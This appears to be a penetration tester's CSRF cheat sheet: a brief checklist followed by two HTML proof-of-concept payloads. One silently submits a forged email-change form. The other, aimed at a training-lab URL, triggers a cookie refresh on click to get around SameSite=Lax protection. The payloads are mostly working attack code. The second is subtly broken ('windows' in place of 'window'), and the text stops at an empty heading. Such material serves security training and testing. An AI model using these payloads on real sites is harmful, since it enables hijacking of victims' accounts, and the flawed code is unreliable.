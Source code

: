 Payload generator: https://csrfshark.github.io/app/
- [ ] Session handling mechanism (token, csrf, JWT)
- [ ] Identify cookie protections (HTTPOnly, Secure, SameSite)
- [ ] Identify gadgets and interesting endpoints
Form submission payload
- Sending a GET request before form submission
```html
<html> 
	<body> <!-- this is to send a GET request before form submission --> 
	<img src=http://vulnerable-website.com/path onerror='document.forms[0].submit()'> 
	<form action="https://vulnerable-website.com/email/change" method="POST">
		<input type="hidden" name="email" value="pwned@evil-user.net" />
	</form> 
	
<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```
Refresh token onclick (Chromium browser when SameSite not set, 120s time window)
```html
<!DOCTYPE html>
<html lang="en"> 
<body> 
<h1>Form CSRF PoC</h1> 
	<form method="POST" action="https://0a2400b603f490d68220296600b80036.web-security-academy.net/my-account/change-email"> 
		<input type="hidden" name="email" value="pwn@csrf.com"> 
		<input type="submit" value="Submit Request"> 
	</form> 
</body> 
<script> // This CSRF payload when user click on page: // - sends a request to refresh cookie endpoint // - wait for cookie refresh, then submit form (SameSite: Lax bypass) 
	windows.onclick = () => {
		windows.open('https://0a2400b603f490d68220296600b80036.web-security-academy.net/social-login'); 
		setTimeout(sendForm, 10000); 
	} 
	
	function sendForm() { 
		document.forms[0].submit(); 
	} 
</script> 
</html>
```
JSON payload
